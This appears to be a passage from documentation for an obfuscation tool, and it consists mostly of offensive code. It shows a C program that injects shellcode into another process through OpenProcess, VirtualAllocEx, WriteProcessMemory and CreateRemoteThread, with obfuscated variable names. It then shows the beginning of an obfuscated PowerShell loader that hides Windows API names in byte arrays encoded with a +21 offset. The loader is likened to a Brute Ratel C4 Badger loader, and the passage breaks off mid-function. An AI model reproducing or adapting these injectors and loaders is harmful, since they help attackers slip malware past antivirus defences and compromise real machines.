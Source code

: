 Compare with obfuscated version:

```text
#include "windows.h"

int main(int argc, char* argv[])
{
	unsigned char awoler[] = "";

	HANDLE awerfu;
	HANDLE rwfhbf;
	PVOID iauwef;

	awerfu = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	iauwef = VirtualAllocEx(awerfu, NULL, sizeof awoler, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(awerfu, iauwef, awoler, sizeof awoler, NULL);
	rwfhbf = CreateRemoteThread(awerfu, NULL, 0, (LPTHREAD_START_ROUTINE)iauwef, NULL, 0, NULL);
	CloseHandle(awerfu);

	return 0;
}
```

### Example with powershell

Compare the deprecated Badger PowerShell loader from the BRC4 Community Kit with:

```text
Set-StrictMode -Version 2
[Byte[]] $Ait1m = @(0x3d, 0x50, 0x51, 0x57, 0x50, 0x4e, 0x5f, 0x50, 0x4f, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50)
[Byte[]] $ahv3I = @(0x34, 0x59, 0x38, 0x50, 0x58, 0x5a, 0x5d, 0x64, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50)
[Byte[]] $Moo5y = @(0x38, 0x64, 0x2f, 0x50, 0x57, 0x50, 0x52, 0x4c, 0x5f, 0x50, 0x3f, 0x64, 0x5b, 0x50)
[Byte[]] $ooR5o = @(0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x3e, 0x50, 0x4c, 0x57, 0x50, 0x4f, 0x17, 0x0b, 0x2c, 0x59, 0x5e, 0x54, 0x2e, 0x57, 0x4c, 0x5e, 0x5e, 0x17, 0x0b, 0x2c, 0x60, 0x5f, 0x5a, 0x2e, 0x57, 0x4c, 0x5e, 0x5e)
[Byte[]] $Reo5o = @(0x3d, 0x60, 0x59, 0x5f, 0x54, 0x58, 0x50, 0x17, 0x0b, 0x38, 0x4c, 0x59, 0x4c, 0x52, 0x50, 0x4f)
[Byte[]] $Reib3 = @(0x3d, 0x3f, 0x3e, 0x5b, 0x50, 0x4e, 0x54, 0x4c, 0x57, 0x39, 0x4c, 0x58, 0x50, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e)
[Byte[]] $Thah8 = @(0x3b, 0x60, 0x4d, 0x57, 0x54, 0x4e, 0x17, 0x0b, 0x33, 0x54, 0x4f, 0x50, 0x2d, 0x64, 0x3e, 0x54, 0x52, 0x17, 0x0b, 0x39, 0x50, 0x62, 0x3e, 0x57, 0x5a, 0x5f, 0x17, 0x0b, 0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57)
[Byte[]] $ii5Ie = @(0x34, 0x59, 0x61, 0x5a, 0x56, 0x50)
[Byte[]] $KooG5 = @(0x38, 0x54, 0x4e, 0x5d, 0x5a, 0x5e, 0x5a, 0x51, 0x5f, 0x19, 0x42, 0x54, 0x59, 0x1e, 0x1d, 0x19, 0x40, 0x59, 0x5e, 0x4c, 0x51, 0x50, 0x39, 0x4c, 0x5f, 0x54, 0x61, 0x50, 0x38, 0x50, 0x5f, 0x53, 0x5a, 0x4f, 0x5e)
[Byte[]] $io9iH = @(0x32, 0x50, 0x5f, 0x3b, 0x5d, 0x5a, 0x4e, 0x2c, 0x4f, 0x4f, 0x5d, 0x50, 0x5e, 0x5e)
[Byte[]] $Qui5i = @(0x32, 0x50, 0x5f, 0x38, 0x5a, 0x4f, 0x60, 0x57, 0x50, 0x33, 0x4c, 0x59, 0x4f, 0x57, 0x50)
[Byte[]] $xee2N = @(0x56, 0x50, 0x5d, 0x59, 0x50, 0x57, 0x1e, 0x1d)
[Byte[]] $AD0Pi = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x2c, 0x57, 0x57, 0x5a, 0x4e)
[Byte[]] $ahb3O = @(0x41, 0x54, 0x5d, 0x5f, 0x60, 0x4c, 0x57, 0x3b, 0x5d, 0x5a, 0x5f, 0x50, 0x4e, 0x5f)
[Byte[]] $yhe4c = @(0x2E, 0x5D, 0x50, 0x4C, 0x5F, 0x50, 0x3F, 0x53, 0x5D, 0x50, 0x4C, 0x4F)

function Get-Robf ($b3tz) {
    $aisN = [System.Byte[]]::new($b3tz.Count)
    for ($x = 0; $x -lt $aisN.Count; $x++) {
       $aisN[$x] = ($b3tz[$x] + 21)
```